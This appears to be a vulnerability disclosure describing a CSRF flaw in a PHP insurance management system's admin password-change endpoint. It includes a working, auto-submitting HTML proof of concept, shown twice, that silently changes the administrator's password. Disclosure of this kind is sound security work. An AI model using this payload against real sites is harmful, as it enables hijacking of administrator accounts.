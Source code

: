 # Summary
There is a CSRF vulnerablity in `Insurance Management System` (https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html).

This vulnerability allows attackers to use carefully constructed HTML pages to trick administrators into clicking and then modify the administrator's password.


# Details
In url `/Script/admin/core/update_password`, use burpsuite to intercept the traffic packet:
![image-20241019103858584](https://github.com/user-attachments/assets/3afa147b-d1ac-47d1-8d3f-9de7d53d9ff2)

It is easy to find that no protection for CSRF.

So we can use this PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://e-insurance:82/Script/admin/core/update_password.php" method="POST">
      <input type="hidden" name="cpassword" value="12345678" />
      <input type="hidden" name="npassword" value="123qweQWE" />
      <input type="hidden" name="submit" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Our initial password is 12345678. bp found that there is no CSRF protection at the password change point, so PoC.html can be generated to induce the administrator to click and change the password.

You can see that after clicking, the administrator password is changed from 12345678 to 123qweQWE.

![E-ins-CSRF-1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/E-ins-CSRF-1.gif)


# PoC
PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://e-insurance:82/Script/admin/core/update_password.php" method="POST">
      <input type="hidden" name="cpassword" value="12345678" />
      <input type="hidden" name="npassword" value="123qweQWE" />
      <input type="hidden" name="submit" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![E-ins-CSRF-1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/E-ins-CSRF-1.gif)
